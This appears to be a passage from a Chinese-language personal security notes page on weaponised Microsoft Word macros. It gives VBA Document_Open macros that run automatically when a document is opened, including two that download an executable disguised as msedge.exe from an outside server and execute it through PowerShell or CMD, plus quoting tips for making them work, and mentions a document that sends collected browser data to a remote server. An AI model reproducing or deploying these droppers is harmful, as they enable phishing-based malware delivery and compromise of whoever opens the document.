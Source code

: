 ![image-20240626165022773](http://cdn.ayusummer233.top/DailyNotes/202406261650962.png)

当用户打开这个 word 文档则会调起浏览器执行 JS 收集信息并向远程服务器发送信息

![image-20240626165255860](http://cdn.ayusummer233.top/DailyNotes/202406261652002.png)

> PS: 示例收集数据信息为空

---

## 调用 PowerShell 使用 curl 下载与执行恶意程序

```vb
Private Sub Document_Open()
    Dim command As String
    command = "powershell.exe -Command ""calc.exe"""
    Call Shell(command, vbNormalFocus)
End Sub
```

需要注意的是 `powershell.exe -Command` 后面的命令要用**两层**双引号包裹起来, 一层是Powershell需要的,一层是VBA Call Shell 需要的

![image-20240712145248578](http://cdn.ayusummer233.top/DailyNotes/202407121452738.png)

---

调用 Powershell 使用 Invoke-WebRequest 下载恶意程序然后使用 Start-Process 执行

```vb
Private Sub Document_Open()
    Dim command As String
    command = "powershell.exe -Command ""Invoke-WebRequest -Uri http://100.1.1.131:8000/download/msedge.exe -OutFile msedge.exe; Start-Process msedge.exe"""
    Call Shell(command, vbNormalFocus)
End Sub
```

---

## 调用 CMD 执行命令

### 调用 CMD 使用 curl 下载与执行恶意程序

```vbscript
Private Sub Document_Open()

Call Shell(Environ$("COMSPEC") & " /c powershell.exe curl http://100.1.1.131:8000/download/msedge.exe -o msedge.exe && msedge.exe", vbNormalFocus)

End Sub
```

`Environ$("COMSPEC")`：获取系统环境变量`COMSPEC`的值。`COMSPEC`通常包含命令处理器的路径，例如`cmd.exe`, 可以用 PowerShell 看下

```powershell
Write-Host $env:COMSPEC
```
